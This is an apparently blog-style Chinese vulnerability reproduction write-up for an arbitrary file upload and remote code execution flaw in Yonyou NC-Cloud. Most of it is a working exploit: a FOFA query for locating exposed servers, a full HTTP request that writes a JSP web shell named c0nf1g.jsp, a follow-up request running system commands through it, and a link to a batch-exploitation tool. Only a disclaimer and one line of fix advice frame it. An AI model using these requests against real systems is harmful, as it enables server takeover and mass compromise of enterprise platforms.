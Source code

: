 # 原创
：  漏洞复现--用友NC-Cloud全版本任意文件上传/RCE

# 漏洞复现--用友NC-Cloud全版本任意文件上传/RCE

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

NC Cloud是指用友公司推出的大型企业数字化平台。支持公有云、混合云、专属云的灵活部署模式。该产品最近爆出了全版本的一个文件上传/RCE，攻击者可利用此漏洞直接获得服务器权限。

### 二：漏洞影响版本

全版本

### 三：网络空间测绘查询

fofa：<br/> `app="用友-NC-Cloud"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b00c1058c9e4ce02b2b4d72cd463cf9c.jpeg"/>

### 四：漏洞复现

1.首页抓包，使用以下POC：

```
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.622.93 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 250

{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${param.getClass().forName(param.error).newInstance().eval(param.cmd)}","webapps/nc_web/c0nf1g.jsp"]}

```

这里不知道为什么404，但c0nf1g.jsp上传成功了，后续操作正常<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/e57bad7de255f38e2b802eafe6ef75f3.jpeg"/><br/> 2.POST访问c0nf1g.jsp构造RCE

```
POST /c0nf1g.jsp?error=bsh.Interpreter HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.2821.52 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 96

cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec("whoami").getInputStream())

```

### 五：批量检测

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/3d2178e3c4637a003f1d6d61464c1b48.jpeg"/><br/> 项目地址：<br/> [https://github.com/MzzdToT/Yongyou_NC_Cloud_upload_rce](https://github.com/MzzdToT/Yongyou_NC_Cloud_upload_rce)

### 六：修复建议

联系厂家发布更新补丁
